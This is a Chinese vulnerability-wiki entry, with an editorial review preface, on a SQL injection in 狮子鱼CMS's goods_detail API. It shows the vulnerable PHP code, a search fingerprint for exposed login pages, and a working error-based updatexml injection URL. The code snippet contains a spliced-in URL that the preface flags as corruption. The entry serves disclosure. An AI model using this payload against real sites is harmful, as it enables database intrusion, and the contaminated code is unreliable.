


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：publicapigoods_detailclaimed; rawgoods_id passedtoMquery; Mysqlextractxml; versionunspecified

- **结论使用边界（1）**：源img_url字符串混入peiqiOSSURL，明确全局替换污染，不是CMS原代码。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（2）**：代码片段在$goods赋值后截断，I()默认过滤/控制器认证未展示，需确认最终输入语义。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **事实待核（3）**：md5(1)报错payload明确，但无响应文本和版本/官方修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（4）**：产品名狮子鱼与后续相同目录候选需语义去重；登录图仅指纹非必须登录说明。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 狮子鱼CMS ApiController.class.php SQL注入漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录界面如下


存在漏洞的文件为 **ApiController.class.php**  , 关键位置为

```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```



漏洞测试为

```plain
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
